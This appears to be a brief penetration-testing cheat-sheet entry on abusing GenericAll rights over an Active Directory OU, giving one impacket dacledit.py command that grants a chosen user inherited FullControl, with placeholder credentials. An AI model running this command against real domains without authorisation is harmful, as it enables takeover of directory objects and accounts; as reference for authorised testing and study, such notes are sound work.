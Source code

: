 # dacledit
#active-directory

## Abuse GenericAll over OU
```
dacledit.py -action 'write' -rights 'FullControl' -principal <user> -target-dn '<object_dn>' -inheritance <domain>/'<user>':'<passwd>' -dc-ip <ip>
```
